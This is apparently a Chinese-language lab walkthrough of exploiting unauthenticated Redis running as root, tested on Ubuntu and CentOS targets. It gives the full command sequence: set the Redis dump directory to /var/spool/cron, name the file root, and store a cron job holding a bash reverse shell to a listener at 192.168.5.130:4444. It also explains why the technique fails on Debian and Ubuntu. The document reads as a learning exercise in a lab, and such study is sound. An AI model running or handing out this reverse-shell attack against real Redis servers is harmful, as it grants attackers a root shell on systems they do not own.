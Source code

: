 # redis未授权利用crontal反弹shell

## 利用条件

redis以root身份运行

## 漏洞利用过程

### 靶机：ubuntu 16.04

#### 本机查看crontab所在位置

`find / -name cron`

![image-20210702111659943](.\images\image17.png)

#### 将redis备份路径修改为定时任务路径

`config set dir /var/spool/cron`

![image-20210702111938181](.\images\image18.png)

#### 修改备份文件名

`config set dbfilename root`

![image-20210702154210622](.\images\imag20.png)

#### 写入反弹shell的定时任务

`set x "\n\n\n* * * * * bash -i >& /dev/tcp/192.168.5.130/4444 ->&1\n\n\n"`

![image-20210702154308146](.\images\image21.png)

#### 结果未成功

### 靶机：CentOS

#### CentOS安装redis(编译安装)

出现安装不了工具的情况，换源

`https://www.cnblogs.com/yangyangming/p/12516780.html`

#### CentOS安装redis

`https://blog.csdn.net/anshaobiao6449/article/details/101121418`

```shell
wget http://download.redis.io/redis-stable.tar.gz
tar xzf redis-stable.tar.gz
cd /redis-stable
make
make install
```



#### 写入定时任务反弹shell

```
redis-cli -h 192.168.5.137
# config get dir
config set dir /var/spool/cron
# config get dbfilename
config set dbfilename root
set x "\n\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.5.130/4444 0>&1\n\n\n"
save
```

![image-20210702162953011](.\images\image20.png)

![image-20210702162927829](.\images\image21.png)

### 坑

**crontab反弹debian,ubuntu都不行**，因为他们对计划任务的格式很严格，必须要执行
`crontab -u root /var/spool/cron/crontabs/root`
通过语法检查后，才能执行计划任务。

`https://www.cnblogs.com/twosmi1e/p/13308682.html`

